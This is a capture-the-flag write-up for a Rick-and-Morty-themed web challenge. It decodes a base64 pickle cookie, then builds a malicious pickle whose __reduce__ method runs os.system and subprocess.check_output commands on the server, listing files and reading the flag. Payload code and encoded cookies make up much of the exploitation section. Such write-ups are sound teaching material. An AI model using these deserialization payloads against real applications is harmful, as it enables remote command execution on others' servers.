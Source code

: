 # Challenge Description
Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.

## Analysis

![rick-0](https://user-images.githubusercontent.com/87711310/211153526-90e16ea2-0d67-4b45-83eb-932febc43443.png)

All the references to `pickles` implies it's an `insecure deserialization` challenge. `pickle` is a serialization format used in python.

If we check the cookies, we get the following:
```
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:
```
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling
Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:
```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)

```
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```
  
The error is quite clear - there's no anti_pickle_serum variable. Let's add one in and try again.
```
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```
  
That error is fixed, but there's another one:
```python
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)  
```
 
Here it's throwing an error because X (`anti_pickle_serum`) __is not a type object__ - so let's make it a class extending from `object`.  
```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```
  
And now there's no error, and we get a response.
```
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}  
```
  
So the cookie is the pickled form of a dictionary with the key serum and the value of an `anti_pickle_serum` class.  
  
# Exploitation
For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takes a function and a list of parameters. We can set the function to `os.system` and the parameters to the code to execute!
```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.
  
```
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='  
```

Huh, that looks nothing like the original cookie value (which starts with KGRwMApTJ3)... maybe we missed something with the dumps?

Checking out the [dumps()](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a protocol parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from 0 to 5. If we play around, protocol=0 looks similar to the original cookie:

```python 
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)  
```  
  
```
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```  

Let's change the cookie to this (without the b''):
  
![rick-1](https://user-images.githubusercontent.com/87711310/211153521-bb4b68f6-2226-4bcd-9a7a-87a88a147331.png)
  
As you can see now, the value 0 was returned. This is the return value of os.system! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.
  
```
return subprocess.check_output, (['ls'],)
``` 
  
Now run it
```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4= 
```  
  
![rick-2](https://user-images.githubusercontent.com/87711310/211153524-b16ad799-1eaa-4a8e-8911-07a95eab63f6.png)
  
As can now see that there is a `flag_wIp1b` file, so we can just read it!
While it's tempting to do
```
return subprocess.check_output, (['cat flag_wIp1b'],)
```
  
`subprocess.check_output` requires a __list__ of parameters (as we see here) and the filename is a separate item in the list, like so:
```
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag! 
  
![rick-3](https://user-images.githubusercontent.com/87711310/211153525-944cf633-29f5-4724-803b-ac03a4fba1b5.png)

